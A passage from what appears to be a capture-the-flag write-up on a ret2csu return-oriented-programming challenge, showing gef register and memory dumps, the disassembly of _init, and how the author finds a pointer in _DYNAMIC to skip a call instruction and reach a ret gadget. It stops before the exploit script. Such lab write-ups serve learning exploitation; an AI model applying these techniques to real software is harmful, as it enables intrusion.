 ```
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r rdi rsi rdx
rdi            0xdeadbeef          0xdeadbeef
rsi            0xcafebabecafebabe  0xcafebabecafebabe
rdx            0xd00df00dd00df00d  0xd00df00dd00df00d
```

so that doesn't work, hmm... what can we do now? i stuck here for a while then
i came up with the idea of what if, i can somehow bypass the `call` instruction
and go right to `ret` so then we can chain more registers to do stuff like `pop rdi`
for example.

after researching for a while i found [this book](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/ret2csu#bypassing-the-call-and-reaching-ret)
from hacktricks, looking at it i found that it mentions `initPtr` and i took a 
dive to see what this is, i assumed that it's the function `_init` that lives in
the binary.

```
gef➤  disas _init
Dump of assembler code for function _init:
   0x00000000004004d0 <+0>:     sub    rsp,0x8
   0x00000000004004d4 <+4>:     mov    rax,QWORD PTR [rip+0x200b1d]        # 0x600ff8
   0x00000000004004db <+11>:    test   rax,rax
   0x00000000004004de <+14>:    je     0x4004e2 <_init+18>
   0x00000000004004e0 <+16>:    call   rax
   0x00000000004004e2 <+18>:    add    rsp,0x8
   0x00000000004004e6 <+22>:    ret
```

hmm, it's a relatively small function so maybe we can probably use this to bypass
the call function and get to execute instructions after the `call` instruction and
landing at `ret` instruction, after that we can do `pop rdi` and then call `ret2win` 
function.

but hold on, how do we find where `0x4004d0` live with in the binary? we can use
`&_DYNAMIC` section to find the location of `0x4004d0` using `gdb`

```
gef➤  x/10xg &_DYNAMIC
0x600e00:       0x0000000000000001      0x0000000000000001
0x600e10:       0x0000000000000001      0x0000000000000038
0x600e20:       0x000000000000001d      0x0000000000000078
0x600e30:       0x000000000000000c      0x00000000004004d0
0x600e40:       0x000000000000000d      0x00000000004006b4

gef➤  x/xg 0x600e38
0x600e38:       0x00000000004004d0
```

so `0x600e38` it is.

there's something to consider before writing our script, let's look into `__libc_csu_init`
one more time.
